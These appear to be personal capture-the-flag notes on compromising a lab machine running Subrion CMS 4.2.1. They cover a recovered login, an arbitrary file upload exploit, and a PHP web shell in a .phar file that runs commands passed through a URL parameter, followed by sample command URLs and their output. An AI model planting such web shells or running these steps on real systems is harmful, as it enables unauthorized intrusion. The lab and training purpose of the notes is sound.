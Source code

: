 we are going to see what is Subrion 4.2 on google
(system content open source)


the user is dora
and the password.. that one of the vigenere cypher (decoded)

E7r9t8@Q#h%Hy+M1234

Now we are going to see if there are some kind of exploits for Subrion 4.2.1

we find a arbitrary file upload: php/webapps/49876.py

Now.. on the folder " downloads"

we created an archive called 

"pwned.phar"
with this code inside
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>


```

This script is used to watch on the folders of the machine... 

we have this url.. 
http://venom.box/uploads/pwned.phar

and here we can put comands

http://venom.box/uploads/pwned.phar?cmd=whoami

http://venom.box/uploads/pwned.phar?cmd=ls%20-la

if some commands doesnt work, we can se information, like this
(Dice que hay que convertir el STDIN al STDOUT para que se vea el error)
2>& (ampers and el codigo es %26 en url)
2>%26

We can see errors.. ifconfig not found.

![[imagen.png]]

when we put ip a 
```
1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s17:  mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:6e:29:1f brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.59/24 brd 192.168.0.255 scope global dynamic noprefixroute enp0s17
       valid_lft 3097sec preferred_lft 3097sec
    inet6 fe80::fcff:b4dc:4cd3:6999/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
